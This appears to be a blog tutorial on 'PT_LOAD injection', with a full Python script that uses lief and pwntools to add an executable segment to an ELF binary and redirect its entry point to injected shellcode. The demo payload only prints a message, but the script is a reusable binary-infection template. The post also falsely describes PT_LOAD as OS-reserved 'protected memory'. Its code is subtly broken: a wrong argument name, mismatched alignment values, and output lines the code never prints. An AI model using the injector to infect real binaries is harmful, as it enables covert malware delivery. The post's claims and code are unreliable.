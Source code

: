 ```yaml
---
title: "PT_LOAD Injection with Python"
classes: wide
header:
  teaser: /assets/images/Binary-Exploitation/Pt_Load-Injection/logo.png
ribbon: red
description: "PT_LOAD Injection is a technique used to inject malicious code into a computer system. This is done by storing the code in..."
categories:
  - Binary Exploitation

---
```


PT_LOAD Injection is a technique used to inject malicious code into a computer system. This is done by storing the code in a special type of memory called "protected memory" or "PT_LOAD memory," which is typically reserved for the operating system and is not accessible to user programs or applications. The injected code is executed by tricking the operating system into thinking it is a legitimate part of the system.

In terms of the ELF (Executable and Linkable Format) structure, PT_LOAD Injection typically involves modifying the ELF header to include the injected code as a new PT_LOAD segment. This segment is then executed as part of the normal program execution process. By modifying the ELF header in this way, the injected code can be executed without raising any red flags or triggering security measures.

![](/assets/images/Binary-Exploitation/Pt_Load-Injection/20221215_202340_7105OS_04_5.jpg)

In Oracle Docs, PT_LOAD described like this:

> PT_LOAD
>
> Specifies a loadable segment, described by p_filesz and p_memsz. The bytes from
> the file are mapped to the beginning of the memory segment. If the segment's memory size (p_memsz) is larger than the file size (p_filesz),
> the extra
> bytes are defined to hold the value 0 and to follow the segment's
> initialized area. The file size can not be larger than the memory size.
> Loadable segment entries in the program header table appear in ascending
> order, sorted on the p_vaddr member.

Here is our injector we create a new PT_LOAD segment and patch the target file with new PT_LOAD segment. While patching the binary with our PT_LOAD segment we should add the old entrypoint to end of our malicious code. With adding old entrypoint, we will not affect the orijinal process but load our malicious code.

## Steps

1. [lief](https://lief-project.github.io/) helps us while parsing **binary **with very simple function: **lief.parse()**

    ```
        binary = lief.parse(args.f)
    ```
2. crate a payload and convert it to assembly code with pwn lib's **asm()** function, assing it to **malcode**
3. add the old entrypoint to the end of malicious code

    ```
            payload = "Everybody looks here\n"
            malcode = asm("mov esi, edx")
            malcode += asm(shellcraft.i386.write(1, payload, len(payload)))
            malcode += asm(f"""
            mov edx, esi
            push {hex(binary.header.entrypoint)}
            ret
            """)
    ```
4. create a new segment with lief's **ELF.Segment()** function and load the **malcode**

    ```
            segment           = lief.ELF.Segment()
            segment.type      = lief.ELF.SEGMENT_TYPES.LOAD
            segment.flags     = lief.ELF.SEGMENT_FLAGS.X
            segment.content   = bytearray(malcode)
            segment.alignment = 0x9876
    ```

5. add this new segment to **binary**

    ```
            binary.add(segment)
    ```

6. traverse in binary segments and find our segment and set binary's header.enrtypoint to our segment's virtual address

    ```
            for segment in binary.segments:
                if segment.type == lief.ELF.SEGMENT_TYPES.LOAD and segment.alignment == 0x999:
                    binary.header.entrypoint = segment.virtual_address
                    break
    ```

Full code:

```python
import lief
from pwn import *
import argparse

def main():
    parser = argparse.ArgumentParser(description='PT_LOAD Injection PoC', conflict_handler='resolve')
    parser.add_argument('-file','--file', help="Target file", required = True)
    parser.add_argument('-out','--out', help="Output file")
    args = parser.parse_args()

    if len(sys.argv) < 2: 
        args.print_help()
        exit(0)
    try:
        binary = lief.parse(args.f)
  
        payload = "Everybody looks here\n"
        malcode = asm("mov esi, edx")
        malcode += asm(shellcraft.i386.write(1, payload, len(payload)))
        malcode += asm(f"""
        mov edx, esi
        push {hex(binary.header.entrypoint)}
        ret
        """)
  
        segment           = lief.ELF.Segment()
        segment.type      = lief.ELF.SEGMENT_TYPES.LOAD
        segment.flags     = lief.ELF.SEGMENT_FLAGS.X
        segment.content   = bytearray(malcode)
        segment.alignment = 0x9876
        binary.add(segment)
  
        for segment in binary.segments:
            if segment.type == lief.ELF.SEGMENT_TYPES.LOAD and segment.alignment == 0x9876:
                binary.header.entrypoint = segment.virtual_address
                break
  
        print("-> New EntryPoint: ", hex(binary.header.entrypoint))
  
        if args.out:
            binary.write(args.out)
        else:
            binary.write(args.file + "_edited")
    except:
        print("error occurred")
  
if __name__ == "__main__":
    main()
```





Output:

```
$   ./hello_world
Hello World!
$   python3 PT_LOAD_inj.py --file ./hello_world
Shellcode size:  53
-> New PT_LOAD segment added succesfully
$   chmod +x hello_world_edited
$   ./hello_world_edited
Everybody looks here!
Hello World!
```

Source code will be in my repo.

Sources:

[https://subscription.packtpub.com/book/networking-and-servers/9781782167105/4/ch04lvl1sec36/the-pt_note-to-pt_load-conversion-infection-method](https://subscription.packtpub.com/book/networking-and-servers/9781782167105/4/ch04lvl1sec36/the-pt_note-to-pt_load-conversion-infection-method) (Only image)

[https://tmpout.sh/1/3.html](https://tmpout.sh/1/3.html)

[https://tmpout.sh/1/10/](https://tmpout.sh/1/10/)

[https://docs.oracle.com/cd/E19683-01/816-1386/chapter6-83432/index.html](https://docs.oracle.com/cd/E19683-01/816-1386/chapter6-83432/index.html)

[http://blog.k3170makan.com/2018/09/introduction-to-elf-format-part-ii.html](http://blog.k3170makan.com/2018/09/introduction-to-elf-format-part-ii.html)

